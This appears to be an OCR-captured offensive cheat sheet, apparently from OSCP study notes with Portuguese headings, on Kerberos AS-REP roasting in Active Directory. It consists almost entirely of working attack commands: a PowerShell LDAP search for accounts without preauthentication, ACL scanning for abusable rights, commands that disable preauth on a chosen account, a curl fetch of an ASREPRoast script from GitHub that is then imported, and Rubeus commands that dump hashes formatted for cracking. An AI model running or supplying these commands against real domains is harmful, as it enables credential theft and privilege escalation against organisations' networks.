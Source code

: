 ```
```
##### KERBEROASTING-ASREP - FIND ALL USERS
```
$MySearch = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$MySearch.filter = "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
$MyResults = $MySearch.Findall()
foreach($result in $MyResults)
{
 $userEntry = $result.GetDirectoryEntry()
 Write-host "Object Name = " $userEntry.name -backgroundcolor "yellow" -foregroundcolor "black"
 Write-host "DN = "  $userEntry.distinguishedName
 Write-host "Object Cat. = "  $userEntry.objectCategory
 Write-host "SamAccountName = "  $userEntry.SamAccountName
 Write-host "servicePrincipalNames"
 $i=1
 foreach($SPN in $userEntry.servicePrincipalName)
  {
  Write-host "SPN(" $i ")   = "   $SPN
  $i+=1
  }
  Write-host ""
  }
```
##### KERBEROASTING-ASREP - PESQUISAR PERMISSOES SUSPEITAS
```
$FormatEnumerationLimit=-1
Invoke-ACLScanner -ResolveGUIDs | select ObjectDN,IdentityReferenceName,ActiveDirectoryRights | Out-String -Width 4096
```
```
$FormatEnumerationLimit=-1
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "bruno"} | select ObjectDN,IdentityReferenceName,ActiveDirectoryRights | Out-String -Width 4096
```
```
$FormatEnumerationLimit=-1
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "Domain Admins"} | select ObjectDN,IdentityReferenceName,ActiveDirectoryRights | Out-String -Width 4096
```
SE ACHAR, PODE DESABILITAR O KERBEROS PREAUTH MANUALMENTE
```
Set-DomainObject -Identity test4 -XOR @{useraccountcontrol=4194304} -Verbose
Set-ADAccountControl -Id kamisama -DoesNotRequirePreAuth:$true
```
##### KERBEROASTING-ASREP - OBTER O HASH DE USUARIOS USANDO SOMENTE POWERSHELL
```
curl https://github.com/n0ts0cial/oscp/raw/main/ASREPRoast.ps1 -Outfile ASREPRoast.ps1
import-module .\ASREPRoast.ps1
Get-ASREPHash -Username test3 -Verbose
```
```
$FormatEnumerationLimit=-1
Invoke-ASREPRoast -Verbose | Out-String -Width 4096
```
##### KERBEROASTING-ASREP - OBTER O HASH DE USUARIOS USANDO RUBEUS
```
Rubeus.exe asreproast /nowrap
Rubeus.exe asreproast /user:test3 /nowrap
Rubeus.exe asreproast /user:test3 /nowrap /simple
Rubeus.exe asreproast /user:test3 /nowrap /simple /outfile:hash.txt
Rubeus.exe asreproast /user:test3 /format:hashcat /nowrap
```